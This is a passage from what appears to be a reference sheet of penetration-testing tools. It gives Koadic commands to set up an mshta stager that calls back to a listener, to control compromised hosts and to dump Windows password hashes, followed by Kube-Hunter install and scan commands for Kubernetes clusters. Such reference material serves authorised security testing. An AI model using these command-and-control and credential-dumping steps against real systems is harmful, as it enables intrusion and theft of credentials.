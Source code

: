**Core Commands**:
```bash
# Start Koadic
./koadic

# Create a stager
use stager/js/mshta
set SRVHOST 192.168.1.100
set SRVPORT 8443
run

# Interact with zombie
zombies
use implant/gather/hashdump
```

**Use Cases**:
- Windows post-exploitation
- COM-based command and control
- Fileless persistence
- Living-off-the-land techniques

**Alternatives**:
- Empire
- Metasploit
- Covenant

### Kube-Hunter

**Description**: Tool for discovering security weaknesses in Kubernetes clusters.

**Installation**:
```bash
# Using pip
pip install kube-hunter

# Using Docker
docker pull aquasec/kube-hunter
```

**Core Commands**:
```bash
# Basic remote scan
kube-hunter --remote 10.0.0.1

# Scan a network range
kube-hunter --cidr 10.0.0.0/24

# Internal cluster scanning
kubectl run -it kube-hunter --image=aquasec/kube-hunter -- --pod
```

**Use Cases**:
- Kubernetes security assessment
- Cluster configuration analysis
- API server vulnerability identification
- Node component security testing
